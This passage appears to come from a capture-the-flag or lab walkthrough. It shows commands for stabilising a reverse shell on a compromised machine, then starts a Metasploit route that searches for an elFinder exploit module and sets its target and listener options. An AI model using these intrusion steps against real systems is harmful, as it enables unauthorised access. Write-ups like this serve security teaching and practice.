 ```shell
export TERM=xterm 
```

Background the shell with “CTRL + Z”.

```shell
stty raw -echo; fg
```

Now, we have a stable shell, history, autocomplete, arrow keys... It's time for privilege escalation, but first take a look at Metasploit method.

## 2.2. Metasploit method

Open Metasploit and search for “elFinder”.

```
search elfinder
```

You get several results. Use fourth one:

![](Images/metasploit_search.png)

```
use 4
```

Now, show options for this module and change parameters: RHOST, LHOST and LPORT.

![](Images/metasploit_module.png)
